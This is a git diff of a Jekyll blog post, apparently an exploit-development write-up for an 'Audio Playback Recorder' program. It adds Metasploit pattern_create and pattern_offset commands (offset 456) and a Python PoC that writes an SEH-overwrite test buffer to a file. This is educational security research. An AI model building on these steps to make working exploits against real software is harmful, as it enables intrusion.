

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/20-03-09-Audio-Playback-Recorder.md, in a window 1280 px wide and 1400 px high, scrolled down 1295 px. Shown: the top 952 px of the window, without its empty margins (0-640 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 20-03-09-Audio-Playback-Recorder.md

````diff
--- a/_posts/posts/20-03-09-Audio-Playback-Recorder.md
+++ b/_posts/posts/20-03-09-Audio-Playback-Recorder.md
@@ -39,15 +39,48 @@
 
 ![](/assets/img/Findings11/4.png)
 
+###### Creating a parameter with msf-pattern_create
 
+```term
+root@whitecr0wz:~# msf-pattern_create -l 500
+...
+```
+
+##### This pattern is pasted into the parameter "Name".
 
 ![](/assets/img/Findings11/5.png)
 
+##### Response of the SEH Chain II
+
 ![](/assets/img/Findings11/6.png)
+
+##### Obtaining the offset with the use of msf-pattern_offset.
+
+```term
+root@whitecr0wz:~# msf-pattern_offset -q 41327041
+[*] Exact match at offset 456
+root@whitecr0wz:~#
+```
+
+###### Current PoC:
+
+```term
+import struct
+
+buffer = "A" * 456 + "BBBB" + "CCCC"
+
+f = open ("poc.txt", "w")
+f.write(buffer)
+f.close()
+```
+
+##### Response of the SEH Chain III
 
 ![](/assets/img/Findings11/7.png)
 
-![](/assets/img/Findings11/28.png)
+##### Enumerating the modules.
+
+![](/assets/img/Findings11/8.png)
 
 
 ![](/assets/img/Findings11/11-proof.gif)
````
